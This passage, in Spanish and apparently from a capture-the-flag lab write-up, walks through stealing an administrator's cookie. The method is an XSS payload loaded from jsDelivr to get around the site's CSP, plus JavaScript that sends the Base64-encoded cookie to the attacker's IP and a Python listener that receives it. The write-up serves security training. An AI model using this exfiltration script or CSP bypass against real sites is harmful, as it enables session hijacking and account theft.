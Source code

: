 Como vemos tenemos uno crítico el cual nos permitirá robar la cookie del administrador.

# INTRUSION

Ahora probaremos si es posible robar la cookie, para esto tendremos que hacer lo siguiente:

• Crearnos una cuenta de github si no tenemos

• Crear un repositorio público (luego lo borramos)

• Crear un archivo .js con el siguiente contenido pero reemplazando la ip por la tuya:

```json
var req = new XMLHttpRequest();
req.onload=reqListener;
var url="https://guitjapeo.thl/api/info";
req.withCredentials=true;
req.open("GET",url,false);
req.send();
function reqListener() {
    var req2=new XMLHttpRequest();
    const sess=JSON.parse(this.responseText).cookie;
    location.href="http://192.168.152.216/?data="+btoa(sess);
};
```

`Este código realiza una solicitud GET a `https://guitjapeo.thl/api/info`, y espera que el servidor responda con un objeto JSON que contenga una propiedad `cookie`. Una vez que recibe la respuesta, redirige al usuario a `http://192.168.56.216/?data=`, pasando la cookie obtenida codificada en Base64 como un parámetro de consulta.`

• Una vez subido el archivo, montamos un servidor http con python3:

```css
python3 -m http.server 80
```

• Ahora solo nos quedaría desde el navegador, poner el siguiente XSS:

```css
<script src="https://cdn.jsdelivr.net/gh/<Nuestro usuario de github>/<Repositorio>@main/<nombre del archivo .js>"></script>
```

En mi caso seria así:

```css
<script src="https://cdn.jsdelivr.net/gh/Maciferna/Temporal@main/cookies.js"></script>
```

Usaremos "cdn.jsdelivr.net" porque si nos fijamos en el CSP el script-src permitia la carga de scripts desde ese dominio.

###### Mas información sobre el tema: [HackTricks](https://book.hacktricks.xyz/v/es/pentesting-web/content-security-policy-csp-bypass)

Una vez hecho todo eso recibiremos esto en el servidor:
